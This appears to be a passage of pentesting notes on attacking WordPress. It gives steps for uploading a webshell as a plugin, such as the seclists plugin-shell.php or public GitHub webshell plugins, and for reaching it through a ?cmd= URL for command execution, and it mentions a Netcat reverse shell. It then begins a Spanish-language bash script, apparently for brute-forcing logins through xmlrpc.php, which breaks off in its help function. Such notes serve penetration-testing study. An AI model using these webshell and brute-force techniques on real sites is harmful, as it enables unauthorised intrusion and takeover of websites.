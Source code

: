 ## Install/Upload plugin

If we can upload new plugins, open a Netcat connection, use a reverse shell and zip it before uploading it.

{% code overflow="wrap" fullWidth="true" %}
```bash
https://github.com/leonjza/wordpress-shell
https://github.com/p0dalirius/Wordpress-webshell-plugin

#### BEST WAY
1. Go to plugins > Add New > Upload Plugin 
2. Upload .php plugin there (from /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php)
3. We see an error message - the package could not be installed, does not matter
4. The shell is ready at http://$IP/wp-content/uploads/$YEAR/$MONTH/plugin-shell.php?cmd=id 

# Go to Plugins > Add Plugins
# Use the following PHP plugin:
We take /usr/share/seclists/Web-Shells/WordPress/plugin-shell.php
# Zip it and upload it, then it will be at /wp-content/plugins/shell/shell.php
http://$IP/wp-content/plugins/shell/shell.php?cmd=id
```
{% endcode %}

## Main Wordpress files

[https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#main-wordpress-files](https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/wordpress#main-wordpress-files)

## Abusing xmlrpc.php

[https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/](https://nitesculucian.github.io/2019/07/01/exploiting-the-xmlrpc-php-on-all-wordpress-versions/)

{% code overflow="wrap" fullWidth="true" %}
```bash
#!/bin/bash

# Colores
greenColour="\e[0;32m\033[1m"
endColour="\033[0m\e[0m"
redColour="\e[0;31m\033[1m"
blueColour="\e[0;34m\033[1m"
yellowColour="\e[0;33m\033[1m"
purpleColour="\e[0;35m\033[1m"
turquoiseColour="\e[0;36m\033[1m"
grayColour="\e[0;37m\033[1m"

function ctrl_c(){
  echo -e "\n\n${redColour}[!] Saliendo...${endColour}\n"
  rm data.xml 2>/dev/null
  tput cnorm; exit 1
}

# Ctrl+C
trap ctrl_c SIGINT

function helpPanel(){
  echo -e "\n${yellowColour}[+]${grayColour} Uso:${blueColour} $0${turquoiseColour} -u${redColour} usuario${turquoiseColour} -w${redColour} wordlist_path${endColour}\n"
  echo -e "\t${purpleColour}-u)${grayColour} Usuario a probar${endColour}"
  echo -e "\t${purpleColour}-w)${grayColour} Ruta del diccionario a probar${endColour}"
  tput cnorm; exit 1
```